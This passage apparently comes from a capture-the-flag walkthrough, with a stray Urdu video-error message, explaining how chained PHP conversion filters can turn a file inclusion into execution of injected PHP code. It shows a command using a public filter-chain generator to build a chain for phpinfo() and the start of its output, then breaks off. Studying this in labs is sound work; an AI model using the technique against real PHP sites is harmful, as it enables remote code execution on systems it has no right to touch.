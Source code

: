 
# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=TnLELBtmZ24){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The summary is that by stacking many PHP filters encoding and
re-encoding a temporary empty file over and over, eventually I can
actually add legit PHP that gets included and executed.

#### POC

[This repo](https://github.com/synacktiv/php_filter_chain_generator) has
a Python script to generate the filters necessary to inject PHP code
into a page. To test, I'll try to generate a PHP filters to run
`phpinfo()`:



    oxdf@hacky$ python php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
    [+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)